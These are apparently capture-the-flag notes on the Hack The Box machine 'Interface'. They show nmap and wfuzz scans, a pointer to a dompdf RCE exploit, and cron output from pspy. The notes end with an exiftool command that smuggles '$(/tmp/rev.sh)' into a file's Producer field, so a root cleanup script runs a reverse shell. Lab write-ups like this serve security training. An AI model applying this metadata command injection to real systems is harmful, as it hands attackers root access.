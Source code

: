 # Interface

## IP = 10.10.11.200

### Initial
```
# nmap -sC -sV -oN nmap/initial 10.10.11.200 

Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-25 04:32 EST
Nmap scan report for 10.10.11.200
Host is up (0.044s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:89:a0:95:7e:ce:ae:a8:59:6b:2d:2d:bc:90:b5:5a (RSA)
|   256 01:84:8c:66:d3:4e:c4:b1:61:1f:2d:4d:38:9c:42:c3 (ECDSA)
|_  256 cc:62:90:55:60:a6:58:62:9e:6b:80:10:5c:79:9b:55 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Site Maintenance
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.45 seconds
```

In some tags there's a `next-route-announcer`, so maybe is in Next.js

### By looking at the CSP settings in the initial request: http://prd.m.rendering-api.interface.htb
```
Content-Security-Policy:
	script-src 'unsafe-inline' 'unsafe-eval' 'self' data: https://www.google.com http://www.google-analytics.com/gtm/js https://*.gstatic.com/feedback/ https://ajax.googleapis.com;
	
	connect-src 'self' http://prd.m.rendering-api.interface.htb;

	style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://www.google.com;

	img-src https: data:;

	child-src data:;
```
With gobuster on it we find:
- /vendor
- /vendor/composer
- /vendor/dompdf/dompdf/

With `/usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-directories.txt`:
- /api
- /api/html2pdf

### This is the default folder used by Composer: https://www.youtube.com/watch?v=H4mYxYuRYJ0
- /vendor/composer/installed.json

### We can fuzz parameters of `/api/html2pdf`. With JSON payload:
```
# wfuzz -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-directories-lowercase.txt  -p 127.0.0.1:8080:HTTP -d '{"FUZZ":"FUZZ"}' --hh 36 -t 150 http://prd.m.rendering-api.interface.htb/api/html2pdf                          
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://prd.m.rendering-api.interface.htb/api/html2pdf
Total requests: 17770

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000142:   200        76 L     184 W      1129 Ch     "html - html" 
```

### dompdf vulnerability: 
https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf
https://github.com/positive-security/dompdf-rce


### User.txt

### Pspy Output

```
2023/03/06 11:10:01 CMD: UID=0     PID=3110   | /bin/sh -c /usr/local/sbin/cleancache.sh 
2023/03/06 11:10:01 CMD: UID=0     PID=3111   | /bin/bash /root/clean.sh 
2023/03/06 11:10:01 CMD: UID=0     PID=3112   | find /var/www/api/vendor/dompdf/dompdf/lib/fonts/ -type f -cmin -5 -exec rm {} ; 
2023/03/06 11:10:01 CMD: UID=0     PID=3113   | rm /var/www/api/vendor/dompdf/dompdf/lib/fonts/dompdf_font_family_cache.php 
2023/03/06 11:10:01 CMD: UID=0     PID=3114   | rm /var/www/api/vendor/dompdf/dompdf/lib/fonts/exploit_normal_e7a8e905fb611a829b913a17ad7865a8.php 
2023/03/06 11:10:01 CMD: UID=0     PID=3115   | rm /var/www/api/vendor/dompdf/dompdf/lib/fonts/bau_normal_7481eefedea0158e1b0adb445820e06f.php 
2023/03/06 11:10:01 CMD: UID=0     PID=3117   | 
2023/03/06 11:10:01 CMD: UID=0     PID=3118   | cp /root/font_cache/dompdf_font_family_cache.php.bak /root/font_cache/dompdf_font_family_cache.php 
2023/03/06 11:10:01 CMD: UID=0     PID=3119   | chown www-data /root/font_cache/dompdf_font_family_cache.php 
2023/03/06 11:10:01 CMD: UID=0     PID=3120   | chgrp www-data /root/font_cache/dompdf_font_family_cache.php 
2023/03/06 11:10:01 CMD: UID=0     PID=3121   | 
2023/03/06 11:12:01 CMD: UID=0     PID=3122   | /usr/sbin/CRON -f 
2023/03/06 11:14:01 CMD: UID=0     PID=3127   | 
2023/03/06 11:14:01 CMD: UID=0     PID=3126   | /usr/sbin/CRON -f 
2023/03/06 11:14:16 CMD: UID=0     PID=3129   | 
2023/03/06 11:15:01 CMD: UID=0     PID=3137   | 
2023/03/06 11:15:01 CMD: UID=0     PID=3136   | /bin/bash /root/clean.sh 
2023/03/06 11:15:01 CMD: UID=0     PID=3135   | /bin/sh -c /root/clean.sh 
2023/03/06 11:15:01 CMD: UID=0     PID=3134   | /usr/sbin/CRON -f 
2023/03/06 11:15:01 CMD: UID=0     PID=3138   | /bin/bash /root/clean.sh 
2023/03/06 11:15:01 CMD: UID=0     PID=3140   | chgrp www-data /root/font_cache/dompdf_font_family_cache.php 
2023/03/06 11:15:01 CMD: UID=0     PID=3141   | 
2023/03/06 11:16:01 CMD: UID=0     PID=3144   | /bin/bash /usr/local/sbin/cleancache.sh 
2023/03/06 11:16:01 CMD: UID=0     PID=3143   | /bin/sh -c /usr/local/sbin/cleancache.sh 
2023/03/06 11:16:01 CMD: UID=0     PID=3142   | /usr/sbin/CRON -f 
```

### cleancache.sh
```sh
#! /bin/bash
cache_directory="/tmp"
for cfile in "$cache_directory"/*; do

    if [[ -f "$cfile" ]]; then

        meta_producer=$(/usr/bin/exiftool -s -s -s -Producer "$cfile" 2>/dev/null | cut -d " " -f1)

        if [[ "$meta_producer" -eq "dompdf" ]]; then
            echo "Removing $cfile"
            rm "$cfile"
        fi

    fi

done
```

### Exploit: meta_producer is evaluated, so executed
1. Create a file with Producer as payload: `exiftool -Producer='a[$(/tmp/rev.sh>&2)]+42' privesc`
2. Wait the execution of `rev.sh`

### root.txt